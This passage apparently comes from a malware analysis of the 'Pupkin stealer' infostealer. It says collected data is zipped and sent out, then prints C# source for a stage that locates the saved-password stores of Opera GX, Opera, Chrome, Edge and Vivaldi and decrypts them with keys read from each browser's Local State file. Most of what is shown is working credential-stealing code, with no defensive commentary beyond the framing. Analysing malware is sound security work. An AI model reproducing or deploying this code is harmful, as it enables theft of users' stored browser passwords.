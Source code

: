 Once all tasks are complete, the collected data is compressed into a zip file and then dispatched to exfiltrate the data.

Let's analyse each function used by the Pupkin stealer step by step:

# Stage 3: Chromium

```csharp
using System;
using System.Collections.Generic;
using System.Data.SQLite;
using System.Diagnostics;
using System.IO;
using System.Security.Cryptography;
using System.Text;
using Helpers;
using Main;

namespace Browsers
{
    public class Chromium
    {
        public class ChromiumPasswords
        {
            public static void DecryptingBrowsersPasswords()
            {
                Directory.CreateDirectory(Variables.temp + Variables.username + "\\Passwords");

                if (File.Exists(Variables.LoginDataPathOperaGX))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathOperaGX, FunctionsForStealer.LocalStateKeys.GetKeyOperaGX(), "OperaGX.txt", "operagx", out Variables.isOperaGXFound, out Variables.foundOperaGXPasswords);
                }

                if (File.Exists(Variables.LoginDataPathOpera))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathOpera, FunctionsForStealer.LocalStateKeys.GetKeyOpera(), "Opera.txt", "opera", out Variables.isOperaFound, out Variables.foundOperaPasswords);
                }

                if (File.Exists(Variables.LoginDataPathChrome))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathChrome, FunctionsForStealer.LocalStateKeys.GetKeyChrome(), "Chrome.txt", "chrome", out Variables.isChromeFound, out Variables.foundChromePasswords);
                }

                if (File.Exists(Variables.LoginDataPathEdge))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathEdge, FunctionsForStealer.LocalStateKeys.GetKeyEdge(), "Edge.txt", "edge", out Variables.isEdgeFound, out Variables.foundEdgePasswords);
                }

                if (File.Exists(Variables.LoginDataPathVivaldi))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathVivaldi, FunctionsForStealer.LocalStateKeys.GetKeyVivaldi(), "Vivaldi.txt", "vivaldi", out Variables.isVivaldiFound, out Variables.foundVivaldiPasswords);
                }
            }
```